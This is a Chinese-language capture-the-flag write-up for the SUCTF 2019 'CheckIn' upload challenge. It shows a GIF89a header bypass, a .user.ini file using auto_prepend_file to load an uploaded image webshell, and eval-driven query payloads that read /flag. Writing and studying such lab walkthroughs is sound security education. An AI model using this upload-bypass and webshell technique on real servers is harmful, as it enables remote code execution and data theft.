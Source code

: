 # [SUCTF 2019]CheckIn 1

- 进入页面，是一个上传页面，经测试，对文件头进行了检测，图片马中需要包含 `GIF89a`

> <img src="../../IMG2/Screenshot 2024-06-04 195820.png">

- 经测试， `.htaccess` 无法使用，因此需要使用另外一个文件 `.user.ini` ， `.user.ini` 是用户自定义的php配置文件，用户可以通过该配置文件对php进行操作，我们需要上传一个 `.user.ini` 对上传的文件马进行包含，并使用php解析文件

```ini
GIF89a
auto_prepend_file=<Trojan Name>
```

> <img src="../../IMG2/Screenshot 2024-06-04 203927.png">

- 接着访问路径中的index.php文件，出现 `GIF89a` 表示成功

> <img src="../../IMG2/Screenshot 2024-06-04 203927.png">

- 此时index.php中就可以接收一个以REQUEST方式传入的参数admin，参数的值将会被 `eval()` 函数作为php代码执行，使用 `var_dump("Hello, World!");` 进行验证，注意需要分号结束符

`?admin=var_dump("Hello, World!");`

> <img src="../../IMG2/Screenshot 2024-06-04 204552.png">

- 一般来说，flag都会存放在网站根目录的 `/flag` 文件下，所以直接使用 `file_get_contents()` 函数获取flag

`?admin=var_dump(file_get_contents("/flag"));`

> <img src="../../IMG2/Screenshot 2024-06-04 204738.png">